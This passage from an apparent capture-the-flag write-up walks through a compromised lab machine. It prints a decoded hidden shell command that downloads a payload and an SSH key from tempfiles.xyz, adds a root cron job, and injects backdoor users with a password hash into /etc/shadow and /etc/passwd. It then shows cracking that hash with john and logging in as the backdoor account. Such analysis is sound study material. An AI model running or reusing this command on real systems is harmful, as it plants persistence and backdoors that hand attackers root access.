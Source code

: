 And this seems to be the right way to go because upon opening the file in [Radare2](https://rada.re/n/radare2.html), there is an interesting string that appears to be obfuscated with hexadecimal and decodes to a shell command. The decoding can be done with CyberChef or a similar tool.

```bash
wget tempfiles.xyz/authorized_keys -O /root/.ssh/authorized_keys; wget tempfiles.xyz/.main -O /var/lib/.main; chmod 755 /var/lib/.main; echo "* 3 * * * root /var/lib/.main" >> /etc/crontab; awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1"1:\$6\$zS7ykHfFMg3aYht4\$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/:18813:0:99999:7::: >> /etc/shadow")}' /etc/passwd; awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1" "$3" "$6" "$7" > users.txt")}' /etc/passwd; while read -r user group home shell _; do echo "$user"1":x:$group:$group:,,,:$home:$shell" >> /etc/passwd; done < users.txt; rm users.txt;
```

That command sets a user password using a hash, which will have to be bruteforced.

```bash
echo "$6\$zS7ykHfFMg3aYht4\$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/" > hash
john --wordlist=SecLists/Passwords/xato-net-10-million-passwords-1000000.txt ./hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ihatehackers     (?)
1g 0:00:00:28 DONE (2022-07-02 20:28) 0.03460g/s 10310p/s 10310c/s 10310C/s invasio..houndog1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Now there is a password but no way to tell which user it is for. Reading /etc/passwd shows a number of potential accounts, however there are two in particular associated with /home/steven which are steven and steven1.
And trying the password with both accounts reveals that it’s steven1’s password. With that, it is possible to read the user flag.

```bash
su steven1
Password: 
steven@production:~$ cat /home/steven/user.txt
```

## privilege escalation

Based on information from previous enumeration, the machine appears to be vulnerable to [CVE-2021-4034 (PwnKit)](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt) as well as [CVE-2021-3156 (Sudo Baron Sameedit)](https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt), both of which could provide a quick and easy privilege escalation route. But that’s boring.

Instead, some further investigation and reading out Steven’s mail reveals a message from the root user regarding Apache’s functionality.

```bash
steven@production:~$ cat /var/mail/steven 
From root@production  Sun, 25 Jul 2021 10:31:12 GMT
Return-Path: <root@production>
Received: from production (localhost [127.0.0.1])
	by production (8.15.2/8.15.2/Debian-18) with ESMTP id 80FAcdZ171847
	for <steven@production>; Sun, 25 Jul 2021 10:31:12 GMT
Received: (from root@localhost)
	by production (8.15.2/8.15.2/Submit) id 80FAcdZ171847;
	Sun, 25 Jul 2021 10:31:12 GMT
Date: Sun, 25 Jul 2021 10:31:12 GMT
Message-Id: <202107251031.80FAcdZ171847@production>
To: steven@production
From: root@production
```